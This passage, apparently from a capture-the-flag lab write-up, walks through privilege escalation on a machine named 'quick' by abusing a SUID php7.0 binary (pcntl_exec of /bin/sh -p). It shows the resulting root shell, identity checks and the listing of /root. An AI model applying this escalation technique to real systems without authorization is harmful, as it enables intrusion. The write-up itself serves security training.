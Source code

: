 <br>
## Privilege escalation
<br>


### >> Exploit (refer GTFObins <a href="https://gtfobins.github.io/gtfobins/php/#suid" target="_blank" rel="noopener noreferrer">link</a>)
```shell
www-data@quick:/$ CMD="/bin/sh"
CMD="/bin/sh"
www-data@quick:/$ /usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
# 
```
- With the obtained interactive shell, let's inspect our identity, role, and the working environment.

```shell
# whoami;id;hostname;pwd;ip a
whoami;id;hostname;pwd;ip a
root
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
quick
/
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:41:d3:56 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.142/24 brd 192.168.0.255 scope global dynamic enp0s3
       valid_lft 5912sec preferred_lft 5912sec
    inet6 fe80::a00:27ff:fe41:d356/64 scope link 
       valid_lft forever preferred_lft forever
# 
```
<strong>Great! Now that we have root access, let's capture the root flag.</strong>
```shell
# ls /root
ls /root
root.txt  snap
# 
```
<br>
<center>pwned</center>